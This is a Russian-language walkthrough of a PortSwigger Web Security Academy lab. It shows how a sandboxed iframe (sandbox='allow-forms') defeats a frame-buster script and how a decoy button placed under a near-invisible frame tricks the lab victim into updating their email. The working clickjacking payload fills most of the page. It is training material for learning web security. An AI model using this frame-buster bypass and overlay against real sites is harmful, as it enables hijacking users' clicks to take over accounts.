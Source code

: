 Залогинимся под `wiener:peter`

и заметим, что при конфигурации URL можно предзаполнить поле ввода email добавив `?email=test@test.com`
```
https://0add00aa030ee00d80bb582e0039001b.web-security-academy.net/my-account?email=test@test.com
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/16.%20Clickjacking/3.%20Clickjacking%20with%20a%20frame%20buster%20script/pics%20for%20walkthrough/1.png)
Перейдем в `Exploit Server` и сконфигурируем пэйлоад

В поле `Body` по аналогии с прошлыми лабораторными работами вставим 
```
<iframe src="https://0add00aa030ee00d80bb582e0039001b.web-security-academy.net/my-account?email=test@test.com></iframe>
```
и нажмем `View exploit` и увидим надпись 
```
This page cannot be framed
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/16.%20Clickjacking/3.%20Clickjacking%20with%20a%20frame%20buster%20script/pics%20for%20walkthrough/2.png)

Значит стоит блокировка. Постараемся ее обойти добавив `sandbox="allow-forms"` в тело фрейма, получая
```
<iframe sandbox="allow-forms" src="https://0add00aa030ee00d80bb582e0039001b.web-security-academy.net/my-account?email=test@test.com"></iframe>
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/16.%20Clickjacking/3.%20Clickjacking%20with%20a%20frame%20buster%20script/pics%20for%20walkthrough/3.png)

нажмем `View exploit` и увидим, что мы успешно обошли блокировку

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/16.%20Clickjacking/3.%20Clickjacking%20with%20a%20frame%20buster%20script/pics%20for%20walkthrough/4.png)

Создаем фальш кнопку стилями, и помещаем ее "поверх" кнопки `Update email`
```
<style>
    iframe {
        position:relative;
        width:1000px;
        height: 700px;
        opacity: 0.1;
        z-index: 2;
    }
    div{
        position:absolute;
        top:460px;
        left: 50px;
        z-index: 1;
    }
</style>

<div>CLICK ME BRO</div>
<iframe sandbox="allow-forms" src="https://0add00aa030ee00d80bb582e0039001b.web-security-academy.net/my-account?email=test@test.com"></iframe>
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/16.%20Clickjacking/3.%20Clickjacking%20with%20a%20frame%20buster%20script/pics%20for%20walkthrough/5.png)

И как это будет выглядеть на стороне жертвы
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/16.%20Clickjacking/3.%20Clickjacking%20with%20a%20frame%20buster%20script/pics%20for%20walkthrough/6.png)



и установим opacity исходной страницы сразу в `0.00001`

нажмем `Store` -> `Deliver exploit to victim` и получим уведомление об успешно выполненной лабораторной работе
